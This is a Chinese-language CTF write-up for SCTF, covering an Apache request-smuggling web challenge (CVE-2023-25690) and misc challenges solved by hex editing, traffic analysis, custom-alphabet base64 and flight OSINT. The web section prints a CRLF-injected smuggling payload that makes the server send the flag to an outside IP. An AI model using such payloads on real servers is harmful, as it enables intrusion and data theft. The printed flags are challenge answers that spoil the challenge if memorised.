

# SCTF

## WEB

### ezcheck1n

#### 题目信息

```
find the way to flag.Looks like there are two containers with an evil P in the configuration file of the frontend server
```

#### 解题过程

CVE-2023-25690 Apache HTTP Server 

[dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)

直接用payload打就好



这里有个2023.php，然后还说现在不是2023年，按其他年份的php文件去读取flag（这一步怪怪的）

反弹shell

```
/2023/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/2022.php%3furl%3d112.74.99.156:9663/?flag=
```


## MISC

### checkin

010直接硬改


解压出来直接拉进去就有


### Genshin Impact

#### 题目信息

```
VanZY被逮到在实验室打原神，看到白哥进来，立马关上了电脑，白哥用黑客技术打开了他的电脑，然而桌面上只留下了一个流量包，白哥不会看流量包，你能帮他看看吗
```

#### 解题过程

流量里面有视频，图片，提取出来发现修复不了，然后看其他的流量。

追踪流量，可以看到tcp.stream eq 1有个png


搜一下，是b站一个视频，然后找uid

```
就你小子米游社uid是Rd/xRtmqSdit是吧
```

流量包这里有个字母表解密，最后面的0不要加上去。

```
3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5
```

base换表


找到ip，然后去社区找用户

https://www.miyoushe.com/ys/accountCenter/postList?id=197370563

得到flag


```
SCTF{yu4nsh3n_q1d0ng!Genshin_impact_start!}
```


### Fly over the Fuchun River

#### 题目信息

```
开玩笑吗
Rapper坐在经济舱
面子伤不伤
我说这是通往成功的方向
图片拍摄于4月的某一天的12：15分(UTC+8)
flag格式
SCTF{起飞机场缩写_落地机场缩写_飞机航班号_日期}（全部大写）
日期格式：
6月17日写作617
```

#### 解题过程

这种题目在ctfshow经常可以看到，通过飞机信息，光照啥的，找航线，日期。

时间4月，中午，天气为阴天。

放大看，B-32DC


https://flightaware.com/live/flight/B32DC

网站找相对应的飞机，然后看4月的航班，然后筛选时间，这里有12：15，先排除在这个之外的。


这样大致就只有几个航班符号，然后点击去看。（当然在打比赛没限制flag次数直接交就好）

```
SCTF{起飞机场缩写_落地机场缩写_飞机航班号_日期}（全部大写）
日期格式：
6月17日写作617
SCTF{GTU_HGH_UEA2259_413}
SCTF{GTU_HGH_UEA2259_421}
```


最后flag是

```
SCTF{GTU_HGH_UEA2259_413}
```

